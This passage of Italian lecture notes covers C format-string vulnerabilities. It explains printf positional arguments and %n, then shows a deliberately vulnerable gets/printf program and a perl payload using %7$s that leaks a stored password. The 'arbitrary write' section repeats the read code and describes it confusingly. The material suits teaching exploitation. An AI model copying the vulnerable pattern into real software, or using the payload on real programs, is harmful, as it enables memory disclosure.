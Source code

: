\begin{lstlisting}[language=C]
    printf("%1$02x %1 $02x %2$02x\n", 1, 2);
\end{lstlisting}

\begin{lstlisting}[language=bash]
    ./vuln

    01 01 02
\end{lstlisting}

Oltre a leggere è possibile utilizzare la \textit{printf} per scrivere valori arbitrari in memoria (l'opposto di \%s), per farlo bisognerà utilizzare il formato \%n.
Scriverà il numero di caratteri scritti dall'invoacazione della \textit{printf} nel valore puntatato dall'argomento.
\begin{lstlisting}[language=C]
    int charprinted;
    printf("ciao%n\n", &charprinted);
    printf("%d\n", charprinted);
\end{lstlisting}
\begin{lstlisting}[language=bash]
    ./ example

    ciao
    4
\end{lstlisting}

\subsection{Arbitrary read}
Utilizzando i concetti spiegati precedente potremo utilizzare \textit{printf} per costruire un arbitrary read:
\begin{lstlisting}[language=C]
    int main (...) {
        char userpass [128];
        char pass[] = "secretpass \0";
        printf("pass @ %p\n", pass);
        gets(userpass); printf(userpass);
        gets(userpass);
        if (! strcmp(pass , userpass )) printf("flag");
    }
\end{lstlisting}

\begin{lstlisting}[language=bash]
    perl -e 'print "\x70\xf6\xff\xbf %7\$s"' | ./ arbitrary_read
    
    pass @ 0xbffff670
    .... secretpass
\end{lstlisting}

\subsection{Arbitrary write}
Analogamente potremo costruire anche una arbitrary write, trovando l'indirizzo del parametro e utilizzando \textit{\%s} potremo stampare un valore semi-arbitrario della memoria.
\begin{lstlisting}[language=C]
    char pass[] = "secretpass";
    printf("pass @ %p\n", pass);
    gets(userpass); printf(userpass);
    if (! strcmp(pass , userpass )) printf("flag");
\end{lstlisting}

